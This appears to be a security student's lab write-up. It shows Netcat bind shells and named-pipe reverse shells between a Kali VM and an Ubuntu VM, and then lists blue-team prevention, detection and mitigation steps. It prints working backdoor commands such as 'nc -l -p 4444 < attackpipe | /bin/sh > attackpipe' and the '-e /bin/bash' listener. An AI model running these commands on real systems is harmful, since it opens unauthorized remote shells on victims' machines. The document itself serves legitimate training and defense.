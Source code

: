 Creating and Defending Against Netcat Backdoor Login Shells &
Reverse Shell Backdoors Using Named Pipes

### Overview:

During the SANS SEC504 (Hacker Tools, Techniques, and Incident Handling) I learned how attackers use Netcat to create backdoor login shells, reverse shell backdoors, transfer files, and cause other mischief.

I created several VMs in Proxmox to learn more about how RITA () detects C2 beaconing traffic, but I first wanted to practice using Netcat to create a backdoor login shell and a reverse shell backdoor. However, I found that I couldn’t use the -e switch in Ubuntu to create a reverse shell because -e was removed for security reasons. To overcome this I created a named pipe using the mkfifo command, which I explain below.

Lastly, I discuss steps defenders can take to prevent, detect, and mitigate attackers’ use of Netcat with named pipes to create reverse shells.

### Objective:

Use Netcat to create (1) a backdoor login shell and (2) a reverse shell backdoor using a Kali Linux VM and an Ubuntu Desktop VM in Proxmox.

III. Traditional Shell Listeners Using the -e Switch

Netcat Client & Listener Modes

### Netcat operates in client or listener modes:

Listener Mode: nc -l -p 4444

Client Mode: nc 192.168.55.73 4444

You must start the Netcat listener before executing the command on the Netcat client machine.

Creating a Shell Listener Using the -e Switch

In a “traditional” Netcat installation you can use Netcat with the -e switch, which will execute a program like /bin/bash once connected. For example, the -e switch allows Computer 1 (the Netcat listener) to pass a shell to Computer 2 (the Netcat client). The attacker must be able to connect to the victim’s computer, which network firewalls often prevent.

### Here’s an example of a backdoor login shell using Netcat’s -e switch:

The victim machine (the Netcat listener at 192.168.55.73) runs the below command, which puts the victim machine into listener mode on port 4444 and passes a shell to any machine that connects to it.

nc -l -p 4444 -e /bin/bash

### The attacker machine (the Netcat client) runs the below command to connect to the victim machine (192.168.55.73) on port 4444, which then receives the victim machine’s shell:

nc 192.168.55.73 4444



When I attempted to run the first command on an Ubuntu VM it failed because the Debian/Ubuntu netcat-openbsd version removed the -e switch for security reasons (see
).



IV. Named Pipe Workaround for Shell Listeners

I learned to use named pipes to create Netcat relays, which allow you to relay, or link, attacks across multiple systems. This is useful if, for example, an attacker gains access to a corporate machine (for example, a web server) that also has access to other corporate machines in an internal network.

However, we can use a named pipe as a substitute for the -e switch to create a shell listener or a reverse shell, as explained below.



### Step 1.1 (Ubuntu Machine/Netcat Listener): First create the named pipe using the mkfifo command (I named it “attackpipe”):

mkfifo attackpipe



### Step 1.2 (Ubuntu Machine/Netcat Listener): Create the Netcat listener on the victim machine at port 4444. The named pipe (a) passes a shell to the named pipe and (b) passes that shell to the attacker’s machine when it connects to the victim’s machine:

nc -l -p 4444 < attackpipe | /bin/sh > attackpipe

While not shown in the below screenshot, the cursor blinks below the command indicating that Netcat is in listener mode, shell at the ready and waiting for a connection.

![Figure](/images/image1.png)




Step 2 (Kali Linux/Netcat Client): Run the below command on the Kali machine to connect to the Ubuntu machine. In my Proxmox lab environment, the Ubuntu machine’s IP address is 192.168.55.73.

nc 192.168.55.73 4444



The above screenshot shows the Kali machine connecting and obtaining a shell from the Ubuntu machine. After running the Netcat command the Kali machine’s cursor blinks and you can enter commands that run on the Ubuntu machine (such as, whoami, hostname, and ls -l).

![Figure](/images/image10.png)


V. Named Pipe Workaround for Reverse Shells

As mentioned above, network firewalls typically prevent an attacker from using Netcat to connect to the victim’s machine. In these instances we can use a reverse shell backdoor because network firewalls typically allow outbound connections. In other words, the network firewall would not prevent the victim machine from making an outbound connection (the Netcat client) to the attacker’s machine (the Netcat listener).

As we did above, we can also use a named pipe to compensate for the absence of the -e switch.



Step 1 (Kali Linux/Netcat Listener): This time the Kali machine is the Netcat listener on port 4444. Start the Netcat listener before executing the Netcat command on the Ubuntu machine. In my Proxmox lab environment the Kali machine’s IP is 192.168.55.60.



Step 2.1 (Ubuntu/Netcat Client): Create a named pipe like before (the “attackpipe”).



Step 2.2 (Ubuntu/Netcat Client): Use Netcat to connect to the Kali machine at port 4444, passing a shell to the Kali machine via the named pipe (“attackpipe”).



Step 3 (Kali/Netcat Listener): Once the Ubuntu machine connects to the Kali machine, the Kali machine can execute commands that run on the Ubuntu machine. The below screenshot shows the Ubuntu machine’s responses to the Kali commands (for example, the Ubuntu machine’s hostname is “rita-sensor” and the whoami, hostname, pwd, and ls -l commands reflect the Ubuntu machine’s response).

![Figure](/images/image11.png)




VI. Blue Team: Defending Against Netcat Backdoor Login Shells & Reverse Shell Backdoors

There are multiple ways for defenders to prevent, detect, and mitigate attackers’ use of Netcat with named pipes to create reverse shells. I’ve focused on Linux defenses since I used that environment in the above examples, but defenders can adapt many of these techniques for use in Windows environments.

Prevention

### Defenders should harden systems to reduce the attack surface and prevent the attack outright by, for example:

Removing or Restricting Netcat Usage: If the business does not regularly require Netcat for operations, remove it from production systems to eliminate this attack vector. As shown above, Debian’s removal of the -e switch does not prevent an attacker from using named pipes to create backdoor shells. Use tools like AppArmor or SELinux to block Netcat execution.

Blocking Inbound Connections to Non-Standard Ports: Use host-based firewall rules (ufw or iptables) to block inbound connections to non-standard ports like 4444, which was used in the above examples. This can help reduce an attacker pivoting throughout the environment.

Selectively Block Outbound Connections: To prevent reverse shells, which use outbound connections to evade firewalls, consider egress filtering to permit only approved outbound traffic. However, an attacker can use ncat --ssl <IP> 443 to encrypt and mask this traffic as normal HTTPS. To prevent this, require that all outbound web traffic from servers go through an authenticated HTTPS proxy with TLS inspection capabilities (although this presents challenges like certificate pinning and inspection overhead and may not be feasible).

Using Next Generation Firewalls and Intrusion Prevention Systems: A NGFW/IPS can detect and block unusual traffic patterns, like unencrypted shell commands and anomalous beaconing.

Segment the Network: Use VLANs to help isolate traffic between machines. This helps limit an attacker’s ability to pivot to other systems throughout the network.

Detection

### Defenders can detect Netcat shells using named pipes through host and network monitoring in multiple ways, including:

Host Monitoring: In Linux, use auditd to log mknod system calls (for mkfifo) and command line entries involving Netcat piped to shells, like the commands shown above. Also monitor temporary directories for suspicious named pipes, which start with a “p” in ls -l output (shown in the above screenshots).

![Figure](/images/image2.png)


Networking Monitoring: IDS systems like Snort and Suricata can alert on outbound connections to unknown or suspect IPs on non-standard ports. Defenders can also use RITA and Zeek to analyze network flows for C2 beaconing patterns.

EDR Tools: EDR solutions can detect behavioral anomalies, like Netcat spawning shells or connecting through pipes. Defenders can hunt for suspicious named pipes (see, for example, a Windows-focused list of over 300 suspicious named pipes at ).

Mitigation

### If defenders detect a Netcat shell:

Immediately Contain the Affected System: Isolate the system from the network, terminate Netcat, delete unrecognized named pipes, and terminate any suspicious processes. Also block the attacker’s IP address.

Scan Ports: Scan potentially impacted machines and close all unused ports.

Investigate and Remediate: Use tools like Volatility for memory analyses, determine the scope of the attack, patch entry points, rotate credentials, and determine if the attacker compromised other machines in the network.

